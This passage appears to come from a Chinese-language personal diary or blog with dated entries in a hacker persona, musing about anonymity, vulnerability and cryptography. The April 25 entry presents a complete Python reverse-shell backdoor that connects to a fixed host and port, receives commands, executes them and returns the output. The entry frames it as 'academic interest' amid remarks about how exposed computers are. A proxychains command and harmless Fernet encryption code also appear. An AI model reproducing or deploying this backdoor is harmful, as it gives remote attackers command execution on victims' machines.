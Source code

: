 ```bash
proxychains firefox
```

現在我可以相對匿名地瀏覽了。相對，因為絕對的匿名在這個世界上不存在。

他們總能找到方法追蹤你。問題不是是否被追蹤，而是何時被發現。

---

## 2024年4月25日 | 19:33:27

創建了一個簡單的後門程序，純粹出於學術興趣：

```python
import socket
import subprocess

SERVER_HOST = "192.168.1.100"
SERVER_PORT = 4444

s = socket.socket()
s.connect((SERVER_HOST, SERVER_PORT))

while True:
    command = s.recv(1024).decode()
    if command.lower() == "exit":
        break
    output = subprocess.getoutput(command)
    s.send(output.encode())

s.close()
```

知識就是力量。問題是，你會如何使用這種力量？

大多數人甚至不知道他們的電腦有多麼脆弱。一個簡單的程序，就能打開一個連接世界的窗口。

而這個窗口，可以是雙向的。

---

## 2024年4月29日 | 03:17:42

又一個無眠之夜。

思考了密碼學的本質。加密不僅僅是保護數據，它是一種思想的表達方式。

```python
from cryptography.fernet import Fernet

key = Fernet.generate_key()
f = Fernet(key)

encrypted_data = f.encrypt(b"人們總是選擇相信他們想要相信的")
decrypted_data = f.decrypt(encrypted_data)

print(decrypted_data.decode())
```

